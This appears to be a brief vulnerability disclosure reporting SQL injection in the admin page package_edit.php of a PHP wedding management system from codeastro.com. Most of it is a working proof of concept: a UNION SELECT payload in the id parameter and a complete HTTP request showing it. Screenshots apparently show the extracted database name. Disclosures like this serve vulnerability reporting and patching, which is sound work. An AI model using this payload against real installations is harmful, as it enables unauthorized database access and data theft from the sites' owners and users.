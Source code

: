 # WeddingManagement System v1.0 by codeastr.com has SQL injection

vendors: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability File: \admin\package_edit.php

Vulnerability location: /Wedding-Management/admin/package_edit.php?id=, id

[+] Payload: id=-1%20union%20select%201,2,database(),4--+

dbname = dbwedding

```sql
GET /Wedding-Management/admin/package_edit.php?id=-1%20union%20select%201,2,database(),4--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/167984006-c5b3f6ba-21f9-4910-9b9e-fdee59b33096.png)

![image](https://user-images.githubusercontent.com/54017627/167984033-f27055c0-ebed-4e24-a33b-3d36ddcafb3c.png)


